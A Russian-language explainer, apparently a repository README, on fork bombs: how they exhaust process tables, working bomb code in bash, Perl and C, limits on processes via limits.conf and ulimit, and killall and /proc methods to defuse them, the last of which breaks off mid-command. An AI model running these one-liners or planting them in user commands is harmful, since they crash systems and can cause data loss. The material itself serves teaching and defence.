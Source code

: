 # Fork Bomb #

fork() — системный вызов в Unix-подобных операционных системах, создающий новый процесс (потомок), который является практически полной копией процесса-родителя, выполняющего этот вызов.

Fork Bomb — маленькая программа, которая порождает себя n-раз. 
Действует Fork bomb по весьма простому пути: для начала программа загружает себя в память, где создает несколько копий себя самой (обычно две). Далее каждая из этих копий создает столько же копий, как и оригинал, и так далее пока память не будет полностью забита, что приводит к отказу системы, ресурсы системы быстро исчерпываются. 

Fork Bomb'ы работают как за счет использования процессорного времени в процессе разветвления, так и за счет заполнения таблицы процессов операционной системы. Базовая реализация Fork Bomb'ы - это бесконечный цикл, который многократно запускает новые копии самого себя.

## Примеры создания  Fork Bomb в Unix/Linux ##

**ВНИМАНИЕ!!!** Эти примеры могут привести к сбою вашей виртуальной машины/компьтера в случае его выполнения.

### Пример создания  Fork Bomb с использованием bash ###

Итак, код выглядит так:

	# :(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *    : — загрузка копии функции «:» в память
   *    |: — перенаправление вывода в следующую копию функции
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (командный сепаратор).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	#!/usr/bin/env bash -x
	 bomb() {
	 bomb | bomb &
	 };
	 bomb

### Пример создания  Fork Bomb с использованием perl ###

	# perl -e "fork while fork" &

### Пример создания  Fork Bomb с использованием C/C++ ###

	#include <unistd.h>
	int main(void)
	{
		while(1)
		fork();
	}

## Способ предотвращения Fork Bomb'ы ##

Избегайте использования Fork в любом, выражении, которое может оказаться в бесконечном цикле.
Можно ограничить процесс разветвления, как показано ниже:

	# sudo nano /etc/security/limits.conf
	
Отредактируйте файл как:

	 user_name hard nproc 10
	 
теперь *user_name* может создать 10 процессов.

Или ограничьте количество процессов пользователя с помощью утилиты:

	# ulimit -u count_of_process
	
Проверьте результат:

	#ulimit -a

Необходимо отметить, что ограничение количества процессов само по себе не предотвращает запуск fork-бомбы, а лишь направлено на минимизацию возможного вреда в случае её срабатывания.

Вы можете попробовать запустить команду в VMWare, если хотите убедиться в том, что все повиснет.


## Примеры Defusing Fork Bomb в Unix/Linux ##

Defusing — так называемое разминирование fork bomb. Из-за их характера, такие бомбы трудно оставновить после их запуска. Чтобы остановить такую бомбу, нужно  завершить все рабочие копии, чего трудно достичь. Одна из проблем заключается в том, что данная команда не может быть выполнена из-за того, что таблица процессов полностью забита. Вторая серьезная проблема заключается в том,  на момент поиска процессов для прекрашения потратилось время за которое могло создатся еще пару форков программы.

Для удаления такой бомбы, можно использовать одну из перечисленных команд:

	# killall -STOP processWithBombName
	# killall -KILL processWithBombName
	
Когда у системы мало свободных PID (в Linux максимальное количество PID-ов можно получить получено комндой ``` cat /proc/sys/kernel/pid_max ```), «разрядка» bomb-ы становится более сложной:

	# killall -9 processWithBombName

Можно получить ошибку:

	bash: fork: Cannot allocate memory

В этом случае разрядка бомбы возможна только в том случае, если хотя бы одна оболочка открыта. Процессы могут не разветвляться, но можно выполнить любую программу из текущей оболочки. Как правило, возможна только одна попытка.

Команда «killall -9» не выполняется непосредственно из оболочки, потому что команда не является атомарной и не удерживает блокировки в списке процессов, поэтому к тому времени когда она закончится, fork bomb наплодит еще PID-ов. Поэтому нужно запустить несколько процессов killall, например:

	# while :; do killall -9 processWithBombName; done
	
Еще пример, — т.к таблица процессов достапна в Linux через ФС (/proc), то можно обезвредить данный форк бомбы с помощью встроенных функций bash, которые не требуют развертывания новых процессов.

Следующий пример идентифицирует процессы, связанные с нарушением и приостанавливает их, чтобы предотвратить данный форк, до того момента, пока они убиты по одному за раз. Это позволяет избежать состояния гонки других примеров, которые могут потерпеть неудачу, если нарушающие процессы могут развиваться быстрее, чем они убиты:

	# cd /proc && for p in [0-9]*; do read cmd < "$p/cmdline"; if [[ $cmd = processWithBombName ]]; then kill -s 
	
Отключите питание системы на случай, если вы запустили ее и не нашли выход для продолжения.

Как-то так!
